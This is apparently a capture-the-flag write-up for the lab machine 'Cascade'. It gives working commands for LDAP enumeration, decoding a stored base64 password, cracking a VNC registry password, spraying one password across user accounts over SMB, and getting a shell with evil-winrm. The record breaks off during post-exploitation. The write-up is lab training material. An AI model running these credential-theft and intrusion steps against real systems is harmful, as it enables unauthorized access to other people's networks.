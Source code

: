```
###### 389: LDAP 

``` ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" > ldap_out.txt ``` 

With some grep fu on the out file for strings like password, pass, pwd or just manually and patiently sifting through the file we find a base64 encryted string "cascadeLegacyPwd: **clk0bjVldmE=**" which returns the password "**rY4n5eva**" when decoded. 


Note you could also spot various base64 encoded objects when you start looking at the output file and just search for that pattern. ###### SMB Part 2 (with creds) 

``` smbclient -U'r.thompson%'rY4n5eva -L \\\\10.10.10.182\\ ```


 
 Pillaging as much info as we can We find an html file containing a note from a meeting which reveals information about a user account "**TempAdmin**". 



 We also find a VNC install file "**VNC Install.reg**" which contains the hex encryted password. 
 
 ![pillage_vnc_install](/images/cascade/pillage_vnc_install.png)
 
  Decoding from hex doesn't work and a google search reveals that VNC passwords are encrypted with a known salt and (1/3)DES. We find this tool https://github.com/trinitronx/vncpasswd.py and successfully crack the password
  
   ``` python ./vncpasswd.py -d -H '6bcf2a4b6e5aca0f' ``` Cannot read from Windows Registry on a Linux system Cannot write to Windows Registry on a Linux system Decrypted Bin Pass= '**sT333ve2**' Decrypted Hex Pass= '7354333333766532' 
   
  Authentication Login with TempAdmin and VNCPASS -- Failed 
   
   ##### Shell (User flag) 
   
   Test the password with all currently discovered users: 
   
   ``` for i in $(cat user.txt); do echo "testing with $i \n"; smbclient -L \\\\10.10.10.182\\ -U"$i%sT333ve2" ; done ``` 


Authenticated with user s.smith If you have a good memory and remembered that the VNC_Install file was found in "s.smith" directory during SMB part 2 Enumeration then you could have easily guessed the owner of the password, however, it is always good to test a discovered password with all known users in case of password repetition. 

Since port 5985 is open we try to authenticate using Evil-WinRM 

``` 
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2 
``` 

Success! At this point the user flag can be read.


#### Post Exploitation

Enumeration After sometime enumerating the machine while logged in via Evil-WinRM and finding nothing interesting, we go back to the shares to see if we now have more access with this user. 

Running Smbmap we see we now have access to read data in the Audit$ share. Therefore, we copy and these files too to analyze them. 

![pillage_ssmith](/images/cascade/pillage_ssmith.png) 

```